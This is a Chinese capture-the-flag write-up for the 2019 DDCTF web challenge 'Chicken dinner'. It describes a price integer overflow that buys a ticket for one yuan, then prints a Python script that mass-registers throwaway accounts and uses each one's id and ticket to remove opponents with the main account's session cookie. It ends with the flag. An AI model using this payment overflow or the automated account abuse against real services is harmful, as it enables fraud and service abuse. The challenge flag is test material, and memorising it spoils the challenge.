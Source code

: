 # 大吉大利,今晚吃鸡~

## 第一步：买票
在购买(添加至购物车)界面，发现有一个js整型溢出

![Alt text](https://github.com/LambGod/2019-DDCTF/blob/master/%E5%A4%A7%E5%90%89%E5%A4%A7%E5%88%A9%EF%BC%8C%E4%BB%8A%E6%99%9A%E5%90%83%E9%B8%A1~/image/buy_ticket1.png)

![Alt text](https://github.com/LambGod/2019-DDCTF/blob/master/%E5%A4%A7%E5%90%89%E5%A4%A7%E5%88%A9%EF%BC%8C%E4%BB%8A%E6%99%9A%E5%90%83%E9%B8%A1~/image/buy_ticket2.png)

然后再点击支付就可以购买到门票并进入游戏(虽然前台显示的需要支付的数字很大，但是实际上只用花1元钱)

![Alt text](https://github.com/LambGod/2019-DDCTF/blob/master/%E5%A4%A7%E5%90%89%E5%A4%A7%E5%88%A9%EF%BC%8C%E4%BB%8A%E6%99%9A%E5%90%83%E9%B8%A1~/image/success.png)

## 第二步：杀人
点击移除对手，发现要杀一个人需要`id`与`ticket`

![Alt text](https://github.com/LambGod/2019-DDCTF/blob/master/%E5%A4%A7%E5%90%89%E5%A4%A7%E5%88%A9%EF%BC%8C%E4%BB%8A%E6%99%9A%E5%90%83%E9%B8%A1~/image/kill.png)

## 第三步：全自动脚本
整体思路如下：
1. 批量注册小号
2. 小号买票，并提取小号的`id`与`ticket`
3. 大号杀小号

脚本如下：
```python
import requests
import re

for i in range(513000000,600000000):
    get_url = 'http://117.51.147.155:5050/ctf/api/register?name=%s&password=12345678' %i
    get_ticket = 'http://117.51.147.155:5050/ctf/api/buy_ticket?ticket_price=4294967297'


    headers = {
        'Host': '117.51.147.155:5050',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0',
        'Accept': 'application/json',
        'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
        'Accept-Encoding': 'gzip, deflate',
        'Referer': 'http://117.51.147.155:5050/index.html',
        'Connection': 'close',
    }

    # 添加到购物车
    s = requests.session()
    url = s.get(get_url)
    ticket_get = s.get(get_ticket)

    # 正则提取bill_id
    cut = re.split(r"[:,]", str(ticket_get.text))
    cud = str(cut[4]).replace('"','')
    pay_ticket = 'http://117.51.147.155:5050/ctf/api/pay_ticket?bill_id=%s' %cud
    pay = s.get(pay_ticket)

    # 正则匹配id与ticket
    cun = re.split(r"[:,}]", str(pay.text))
    id = str(cun[4]).replace("'","")
    ticket = str(cun[6]).replace('"','')

    main_url = 'http://117.51.147.155:5050/ctf/api/remove_robot?id=%s&ticket=%s' %(id,ticket)
    kill = s.get(main_url, headers={'Cookie':'user_name=123sd; REVEL_SESSION=88bd3619321062e6058167f64f0d48c9'})
    # 利用headers参数带入大号cookie
    print(kill.text)
```

最后拿到flag

![Alt text](https://github.com/LambGod/2019-DDCTF/blob/master/%E5%A4%A7%E5%90%89%E5%A4%A7%E5%88%A9%EF%BC%8C%E4%BB%8A%E6%99%9A%E5%90%83%E9%B8%A1~/image/win.png)

flag: DDCTF{chiken_dinner_hyMCX[n47Fx)}
